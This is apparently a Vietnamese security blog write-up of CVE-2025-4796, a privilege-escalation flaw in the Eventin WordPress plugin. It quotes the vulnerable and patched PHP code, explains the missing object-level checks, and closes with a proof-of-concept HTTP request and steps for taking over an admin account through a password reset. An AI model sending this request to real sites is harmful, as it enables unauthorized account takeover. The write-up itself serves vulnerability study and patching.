

# CVE-2025-4796 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **Eventin** cho WordPress **dễ bị leo thang đặc quyền** thông qua **chiếm quyền tài khoản** trong tất cả các phiên bản **từ trước đến và bao gồm 4.0.34**. Nguyên nhân là do plugin **không xác thực đúng danh tính hoặc quyền hạn của người dùng** trước khi cập nhật thông tin như **email** trong hàm **`Eventin\Speaker\Api\SpeakerController::update_item`**. Điều này cho phép **kẻ tấn công chưa xác thực** nhưng có **quyền contributor trở lên** có thể **thay đổi địa chỉ email của bất kỳ người dùng nào**, bao gồm cả **quản trị viên**, từ đó **đặt lại mật khẩu** và **chiếm quyền truy cập tài khoản**.

* **CVE ID**: [CVE-2025-4796](https://www.cve.org/CVERecord?id=CVE-2025-4796)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 4.0.34
* **Patched Versions**: 4.0.35
* **CVSS severity**: Medium (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress Eventin Plugin](https://wordpress.org/plugins/wp-event-solution/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Eventin**:  
    * `4.0.34` – **vulnerable**  
    * `4.0.35` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký một API như sau:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[13,14]}
register_rest_route(
    $this->namespace, // 'eventin/v2'
    '/' . $this->rest_base . '/(?P<id>[\d]+)', // 'speakers'
    array(
        'args' => array(
            'id' => array(
                'description' => __( 'Unique identifier for the post.', 'eventin' ),
                'type'        => 'integer',
            ),
        ),
        array(
            'methods'             => WP_REST_Server::EDITABLE, // POST, PUT, PATCH
            'callback'            => array( $this, 'update_item' ),
            'permission_callback' => array( $this, 'update_item_permissions_check' ),
            'args'                => $this->get_collection_params(),
        ),
        ...
    ),
);
```

Với cấu hình trên:

* `$this->namespace` = **`eventin/v2`**
* `$this->rest_base` = **`speakers`**
* `(?P<id>[\d]+)` = **tham số ID dạng số**

API endpoint đầy đủ sẽ có dạng:

```
/wp-json/eventin/v2/speakers/{id}
```

Khi có request đến endpoint trên với method hợp lệ thì callback `update_item` nhưng trước hết cần vượt qua hàm kiểm tra quyền `update_item_permissions_check`

```php
public function update_item_permissions_check( $request ) {
    return current_user_can( 'etn_manage_organizer' )
                || current_user_can( 'etn_manage_event' );
}
```

Hàm sẽ cho phép request đi tiếp (`return true`) nếu user hiện tại có một trong hai quyền: `etn_manage_organizer` hoặc `etn_manage_event`

Khi search với từ khóa `etn_manage_organizer`


Ta thấy role contributor cũng được gán 2 quyền này

=> Endpoint này dành cho người dùng có role **Contributor** trở lên.

Hàm `update_item` được gọi:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[2,12,29]}
public function update_item( $request ) {
    $data = $this->prepare_item_for_database( $request );

    if ( is_wp_error( $data ) ) {
        return $data;
    }

    $speaker = new User_Model( $request['id'] );
    ...
    $updated = $speaker->update( $data );
    ...
}
```

Hàm sẽ gọi đến **`prepare_item_for_database()`** để thực hiện các bước **chuẩn bị dữ liệu cần thiết trước khi tiến hành thao tác tạo mới hoặc cập nhật**.

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[3,10,58]}
protected function prepare_item_for_database( $request ) {
    $prepared_data = [];
    $input_data    = json_decode( $request->get_body(), true );

    if ( ! empty( $input_data['id'] ) ) {
        $prepared_data['id'] = intval( $input_data['id'] );
    }

    if ( ! empty( $input_data['name'] ) ) {
        $prepared_data['etn_speaker_title'] = sanitize_text_field( $input_data['name'] );
        $prepared_data['display_name']      = sanitize_text_field( $input_data['name'] );
    }
    

    if ( ! empty( $input_data['email'] ) ) {
        $prepared_data['etn_speaker_website_email'] = sanitize_text_field( $input_data['email'] );
        $prepared_data['user_login']                = sanitize_email( $input_data['email'] );
    }


    if ( ! empty( $input_data['social'] ) ) {
        $prepared_data['etn_speaker_social'] = $input_data['social'] ;
    }


    if ( ! empty( $input_data['category'] ) && is_array( $input_data['category'] ) ) {
        $allowed_categories = ['speaker', 'organizer'];
        $filtered_categories = array_intersect( $input_data['category'], $allowed_categories );
    
        if ( ! empty( $filtered_categories ) ) {
            $prepared_data['etn_speaker_category'] = $filtered_categories;
        } else {
            unset( $prepared_data['etn_speaker_category'] ); // Or you can leave it out entirely
        }
    }       
    
    if ( ! empty( $input_data['speaker_group'] ) ) {
        $prepared_data['etn_speaker_group'] =  $input_data['speaker_group'] ? json_encode($input_data['speaker_group']) : json_encode([]);
    }        
    
        
    //non mandatory field
    $prepared_data['date']                      =  $input_data['date'] ? $input_data['date'] : date("Y-m-d H:i:s");
    $prepared_data['etn_speaker_designation']   = ! empty( $input_data['designation'] ) ? sanitize_text_field( $input_data['designation'] ) : '';
    $prepared_data['etn_company_name']          = ! empty( $input_data['company_name'] ) ? sanitize_text_field( $input_data['company_name'] ) : '';
    $prepared_data['etn_speaker_url']           = ! empty( $input_data['company_url'] ) ? sanitize_url( $input_data['company_url'] ) : '';
    $prepared_data['etn_speaker_summery']       = ! empty( $input_data['summary'] ) ? wp_kses_post( $input_data['summary'] ) : '';
    $prepared_data['image']                     = ! empty( $input_data['image'] ) ? sanitize_url( $input_data['image'] ) : '';
    $prepared_data['image_id']                  = ! empty( $input_data['image_id'] ) ? intval( $input_data['image_id'] ) : attachment_url_to_postid( $input_data['image'] );
    $prepared_data['etn_speaker_company_logo']  = ! empty( $input_data['company_logo'] ) ? sanitize_url( $input_data['company_logo'] ) : '';
    $prepared_data['etn_company_logo_id']       = ! empty( $input_data['company_logo_id'] ) ? intval( $input_data['company_logo_id'] ): attachment_url_to_postid( $input_data['company_logo'] );


    if ( isset( $input_data['hide_user'] ) ) {
        $prepared_data['hide_user'] = $input_data['hide_user'];
    }
    
    return $prepared_data;
}
```

Hàm **`prepare_item_for_database()`** dùng để **decode JSON từ body request, sanitize và chuẩn hóa dữ liệu, map các trường cần thiết sang cấu trúc nội bộ, sau đó trả về mảng dữ liệu để phục vụ việc tạo hoặc cập nhật speaker trong database**.

Sau đó hàm `update_item` khởi tạo speaker theo `$request['id']`

Gọi `$speaker->update($data)` để ghi dữ liệu đã chuẩn hóa vào database, cập nhật thông tin speaker.

```php {title="user-model.php v4.0.34" data-open=true hl_lines=[2,9,13]}
public function update( $args = [] ) {
    $user = get_userdata($this->id);
    ...
    $email = !empty($args['etn_speaker_website_email']) ? $args['etn_speaker_website_email'] : '';

    $user_data = $user->to_array();
    ...
    if ( $email ) {
        $user_data['user_email'] = $email;
    }

    ...
    $user_id = wp_update_user( $user_data );

    ...
    return $user_id;
}
```

Hàm **`update()`** lấy thông tin user theo **ID được truyền từ request**, chuyển dữ liệu user sang mảng, sau đó **ghi đè trường `user_email` nếu có giá trị mới** và gọi **`wp_update_user()`** để cập nhật trực tiếp dữ liệu user trong hệ thống.

Do **ID và email đều có thể bị kiểm soát từ request**, toàn bộ luồng cập nhật có thể bị attacker lợi dụng để **thay đổi email của bất kỳ user nào**. Khi email của nạn nhân (ví dụ admin) bị đổi sang email do attacker kiểm soát, attacker chỉ cần thực hiện chức năng **reset mật khẩu** để **chiếm quyền tài khoản (Account Takeover)**, từ đó dẫn đến **Privilege Escalation**.

Bản vá `v4.0.35` bổ sung các kiểm soát sau trong hàm `update_item`:

```php {title="SpeakerController.php v4.0.34" data-open=true hl_lines=[]}
$target_user_id = (int) $request->get_param('id');
$target_user    = get_userdata($target_user_id);

// Validate user tồn tại
if ( ! $target_user ) {
    return new WP_Error('user_not_found', 'User does not exist', ['status' => 404]);
}

// Kiểm tra quyền chỉnh sửa user
if ( ! current_user_can( 'edit_user', $target_user_id ) ) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}

// Chỉ cho phép chỉnh sửa speaker / organizer
if (
    ! in_array('etn-speaker', (array) $target_user->roles, true) &&
    ! in_array('etn-organizer', (array) $target_user->roles, true)
) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}

// Chặn cập nhật các role nhạy cảm
if (
    in_array('administrator', (array) $target_user->roles, true) ||
    in_array('editor', (array) $target_user->roles, true) ||
    in_array('author', (array) $target_user->roles, true) ||
    in_array('contributor', (array) $target_user->roles, true) ||
    in_array('subscriber', (array) $target_user->roles, true) ||
    in_array('etn-customer', (array) $target_user->roles, true)
) {
    return new WP_Error('forbidden', 'forbidden', ['status' => 403]);
}
```

Các kiểm tra này đảm bảo **chỉ user hợp lệ mới được phép cập nhật speaker/organizer**, ngăn chặn việc **sửa email trái phép và chiếm quyền tài khoản**.

## Flow


## Proof of Concept (PoC)
1. Đăng nhập bằng tài khoản **Contributor**.

2. Thực hiện cập nhật speaker tại:
   `http://localhost/wp-admin/admin.php?page=eventin#/speakers/edit/{id}`.


3. Bắt request bằng **BurpSuite** và gửi lại với **ID của user bất kỳ** cùng **email do attacker kiểm soát**.

```http
POST /wp-json/eventin/v2/speakers/44 HTTP/1.1
Host: localhost
X-WP-Nonce: valid_nonce
Cookie: contributor_cookie

{"summary":"<p>asfsfas</p>","social":[{}],"name":"abc","email":"hacker1@gmail.com","category":["speaker"],"speaker_group":[33],"designation":"rewrew","company_name":"rewrew","date":null}
```


4. Sử dụng chức năng **reset password** với email đã bị thay đổi.

5. Đăng nhập bằng tài khoản vừa chiếm quyền kiểm soát.

## Conclusion

Lỗ hổng CVE-2025-4796 trong plugin **Eventin ≤ 4.0.34** xuất phát từ việc **không kiểm soát đầy đủ quyền chỉnh sửa user** trong API `update_item`. Endpoint này cho phép người dùng có role **Contributor** thao tác với **ID user tùy ý** và cập nhật trực tiếp trường **email**, dẫn đến khả năng **chiếm quyền tài khoản thông qua chức năng reset mật khẩu**. Việc thiếu ràng buộc giữa đối tượng được chỉnh sửa và quyền thực tế của người gọi API đã tạo điều kiện cho **Privilege Escalation** và **Account Takeover**.

Phiên bản **4.0.35** đã khắc phục bằng cách bổ sung kiểm tra tồn tại user, kiểm soát quyền `edit_user`, giới hạn role hợp lệ và chặn cập nhật các role nhạy cảm, qua đó loại bỏ khả năng sửa email trái phép.

## Key Takeaways

* Không nên chỉ dựa vào **capability tổng quát** cho các endpoint nhạy cảm; cần kiểm tra **quyền trên từng đối tượng (object-level authorization)**.
* Mọi tham số nhạy cảm từ request như **user ID, email, role** phải được **xác thực và ràng buộc chặt chẽ** trước khi ghi vào database.
* Việc cho phép cập nhật **email người dùng** có thể gián tiếp dẫn đến **Account Takeover** thông qua cơ chế reset mật khẩu.
* REST API trong WordPress cần kết hợp **permission_callback**, **current_user_can('edit_user', $target_id)** và **role validation** để tránh leo thang đặc quyền.
* Luôn so sánh **diff giữa phiên bản vá và phiên bản lỗi** để xác định chính xác nguyên nhân và phạm vi ảnh hưởng của lỗ hổng.

## References
[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Eventin Plugin <= 4.0.34 is vulnerable to a medium priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/wp-event-solution/vulnerability/wordpress-eventin-plugin-4-0-34-authenticated-contributor-privilege-escalation-via-user-email-change-account-takeover-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2026-01-12-cve-2025-4796/  

